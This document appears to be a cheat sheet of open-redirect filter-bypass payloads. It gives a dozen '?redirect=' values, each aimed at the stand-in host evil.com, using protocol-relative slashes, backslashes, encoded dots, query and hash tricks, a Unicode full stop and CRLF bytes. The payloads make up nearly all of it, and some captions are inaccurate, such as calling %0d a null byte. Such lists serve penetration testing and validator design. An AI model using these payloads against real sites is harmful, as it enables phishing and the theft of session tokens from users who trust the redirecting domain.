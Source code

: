 ***
Simpy try to change the domain:
```
?redirect=https://example.com -> ?redirect=https://evil.com
```
Bypass the filter when protocol is blacklisted using `//`
```
?redirect=https://example.com -> ?redirect=//evil.com
```
Bypass the filter double slash is blacklisted using `\\`
```
?redirect=https://example.com -> ?redirect=\evil.com
```
Bypass the filter when double slash is blacklisted `http:` or `https:`
```
?redirect=https://example.com -> ?redirect=https:evil.com
```
Bypass the filter if it only checks for domain name
```
?redirect=https://example.com -> ?redirect=example.comevil.com
```
Bypass the filter if it only checks for domain name using a dot `%2e`
```
?redirect=https://example.com -> ?redirect=example.com%2eevil.com
```
Bypass the filter if it only checks for domain name using a query/question mark `?`
```
?redirect=https://example.com -> ?redirect=evil.com?example.com
```
Bypass the filter if it only checks for domain name using a hash %23
```
?redirect=https://example.com -> ?redirect=evil.com%23example.com
```
Bypass the filter using a `○` symbol
```
?redirect=https://example.com -> ?redirect=https://example.com/○evil.com
```
Bypass the filter using a URL encoded Chinese dot `%E3%80%82`
```
?redirect=https://example.com -> ?redirect=evil.com%E3%80%82example.com
```
Bypass the filter if it only allows you to control the path using a nullbyte `%0d` or `%0a`
```
?redirect=https://example.com -> ?redirect=/%0d/evil.com
```